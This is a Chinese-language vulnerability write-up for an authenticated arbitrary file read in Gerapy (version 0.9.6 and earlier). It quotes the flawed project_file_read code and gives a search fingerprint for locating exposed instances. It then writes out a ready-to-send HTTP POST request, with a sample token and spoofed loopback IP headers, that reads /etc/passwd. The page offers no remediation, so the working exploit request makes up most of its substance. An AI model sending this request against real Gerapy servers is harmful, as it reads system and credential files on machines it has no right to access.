 # Gerapy read 后台任意文件读取漏洞

## 漏洞描述

Gerapy gerapy/server/core/views.py 中的 project_file_read 方法存在任意文件读取，攻击者登录后台后发送特定的请求包即可利用漏洞 

## 漏洞影响

<a-checkbox checked>Gerapy <= 0.9.6</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="Gerapy"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1638069254477-82075ea9-6191-4ebd-8e92-bed0104a0942.png)

出现漏洞的文件为 `gerapy/server/core/views.py`

![img](/assets/PeiQi-Wiki/img/1638085009077-bf005982-09d5-45c8-9468-36c5e3204b00.png)

```python
@api_view(['POST'])
@permission_classes([IsAuthenticated])
def project_file_read(request):
    """
    get content of project file
    :param request: request object
    :return: file content
    """
    if request.method == 'POST':
        data = json.loads(request.body)
        path = join(data['path'], data['label'])
        # binary file
        with open(path, 'rb') as f:
            return HttpResponse(f.read().decode('utf-8'))
```

参数 path 和 label 都为用户可控变量，登录后构造请求包

```python
POST /api/project/file/read HTTP/1.1
Host: 
Content-Length: 35
Accept: application/json, text/plain, */*
Authorization: Token 0fb31a60728efd8e6398349bea36fa7629bd8df0
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.55 Safari/537.36
Content-Type: application/json;charset=UTF-8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
x-forwarded-for: 127.0.0.1
x-originating-ip: 127.0.0.1
x-remote-ip: 127.0.0.1
x-remote-addr: 127.0.0.1
Connection: close

{"path":"/etc/",
"label":"passwd"}
```

![img](/assets/PeiQi-Wiki/img/1638085088521-218085b1-d086-400e-830a-596d896a6a14.png)